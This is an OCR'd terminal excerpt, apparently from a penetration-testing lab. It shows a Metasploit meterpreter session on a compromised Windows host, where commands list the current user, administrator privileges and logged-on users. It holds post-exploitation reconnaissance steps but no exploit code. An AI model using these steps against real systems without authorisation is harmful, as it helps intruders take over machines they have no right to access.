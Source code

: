 ```
```

```
msf5 post(windows/gather/enum_logged_on_users) > sessions 1
[*] Starting interaction with 1...

meterpreter > shell
Process 2840 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\hfs>whoami
whoami
win-omcnbkr66mn\administrator
```

```
C:\hfs>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State  
=============================== ========================================= =======
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Enabled
SeSecurityPrivilege             Manage auditing and security log          Enabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Enabled
SeLoadDriverPrivilege           Load and unload device drivers            Enabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Enabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeBackupPrivilege               Back up files and directories             Enabled
SeRestorePrivilege              Restore files and directories             Enabled
SeShutdownPrivilege             Shut down the system                      Enabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Enabled
SeUndockPrivilege               Remove computer from docking station      Enabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

```
C:\hfs>query user
query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         console             1  Active      none   5/31/2023 1:41 AM
```

